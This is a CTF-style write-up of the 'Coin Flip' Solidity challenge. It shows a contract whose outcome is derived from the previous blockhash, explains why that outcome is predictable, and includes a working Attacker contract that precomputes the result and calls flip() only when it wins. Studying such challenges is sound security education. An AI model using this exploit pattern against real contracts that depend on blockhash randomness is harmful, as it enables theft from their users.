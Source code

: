 # Coin Flip

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract CoinFlip {

  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number - 1));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue / FACTOR;
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

## Goal

Win every bet by predicting the guess

## Exploit

In order to finish this CTF we will have to use another smart contract. We will name this contract Attacker.

We will need more than 10 consecutive wins to pass this challenge, this value is stored inside the consecutiveWins variable, which is initialized to 0 in the contructor. 

One think to keep in mind is that the transactions in the blockchain are atomic, so either everything passes and the state is changed, or if the transaction failes everything is reverterd to the previous state, meaning if the transaction reverts every storage variable will kepp it's previos state (value).

Another thing to keep in mind is that everything in the smart contracts is publicly visible, including the local variables and state variables marked as private.

To place our guess we need to call the flip() function with a boolean parameter, which means this function only accepts true or false as parameters.

Inside the Attacker contract we can pre-calculate the side parameter and call the flip(bool _guess) function from the CoinFlip contract within the Attacker contract, only if our guess is correct.

The steps to reproduce the exploit would be:

1. create Attacker contract, and create instance from the CoinFlip contract inside the Attacker contract
2. create placeGuess(bool _guess) external function inside the Attacker contract, inside this function we will pre-calculate the side parameter (which can be true or false)
3. call the placeGuess function from the attacker contract with a value for the _guess parameter (true/false)
4. if our _guess is equals to the pre-calculated side parameter, we call the flip() function from the CoinFlip contract, if our _guess does not match the side parameter we revert the transaction

## Attacker contract code

```
contract Attacker {

  address private coinFlipContractAddress;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor(address _cf) {
    coinFlipContractAddress = _cf;
  }

  function placeGuess(bool _guess) public {
      uint256 blockValue = uint256(blockhash(block.number - 1));

      uint256 coinFlipp = blockValue / FACTOR;
      bool side = coinFlipp == 1 ? true : false;

      if (side == _guess) {
        (bool success, ) = coinFlipContractAddress.call(abi.encodeWithSignature("flip(bool)", _guess));
        require(success, "Bet unsuccessfull failed");
      } else revert();
  }
}
```